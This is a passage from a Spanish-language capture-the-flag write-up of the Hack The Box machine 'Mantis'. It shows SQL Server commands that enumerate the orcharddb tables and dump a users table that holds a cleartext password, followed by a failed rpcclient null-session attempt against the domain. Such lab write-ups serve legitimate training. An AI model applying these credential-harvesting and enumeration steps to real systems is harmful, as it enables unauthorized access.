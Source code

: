 Estamos dentro del SQL Server. Primeramente, vamos a listar las tablas alojadas en la base de datos que identificamos *orcharddb*:

```bash
1> SELECT TABLE_NAME from orcharddb.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
2> go -m csv > output.csv
1>
```

Con el comando `go -m csv > output.csv` nos exportamos la información a nuestro directorio de trabajo, esto es para tener la información de una forma más cómoda ya que el sin esto, la manera en como presenta el servidor la información es muy fea. En dicho archivo, vemos dos tablas que tienen la palabra **user**:

```bash
❯ cat output.csv | grep -i "user"
"blog_Orchard_Users_UserPartRecord"
"blog_Orchard_Roles_UserRolesPartRecord"
```

A este punto, vamos a listar el contenido de la tabla `blog_Orchard_Users_UserPartRecord`. (Nota: Para visualizar la información en un formato decente, vamos a exportar la información en formato html y la veremos en nuestro navegador en la dirección *localhost*):

```bash
1> USE orcharddb;
2> SELECT * FROM blog_Orchard_Users_UserPartRecord;
3> go -m html > index.html
1>
```

```bash
❯ cp index.html /var/www/html/.
❯ service apache2 start
```

![](/assets/images/htb-mantis/mantis_db.png)

Como se puede observar en los resultados obtenidos, tenemos el usuario **admin** y el usuario **james**, quien tiene una contraseña en texto claro; asi que nos guardamos las credenciales.

### Kerberos

Se tiene el puerto 88 abierto asociado al servicio de kerberos, por lo que podríamos conectarnos a través de una *null session* y ver posibles usuarios del dominio.

```bash
❯ rpcclient -U "" 10.10.10.52
Enter WORKGROUP\'s password: 
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```
